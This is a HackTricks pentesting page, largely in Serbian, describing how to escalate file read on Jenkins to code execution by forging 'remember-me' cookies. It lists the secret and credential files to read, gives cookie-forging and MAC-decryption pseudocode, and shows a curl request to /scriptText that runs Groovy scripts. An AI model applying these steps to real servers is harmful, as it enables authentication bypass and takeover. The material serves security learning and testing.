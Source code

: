 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

U ovom blog postu je moguće pronaći odličan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani sažetak dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića za dobijanje RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj sažetak:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevani postavka).
* **Access Levels:** Napadač treba Overall/Read dozvole.
* **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedan sat trenutnom vremenu
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Konvertuje master key u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifruje .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Izračunava HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac)  // Konvertuje MAC u heksadecimalni string
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodira podatke kolačića
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
* Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan pokazuje kako napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
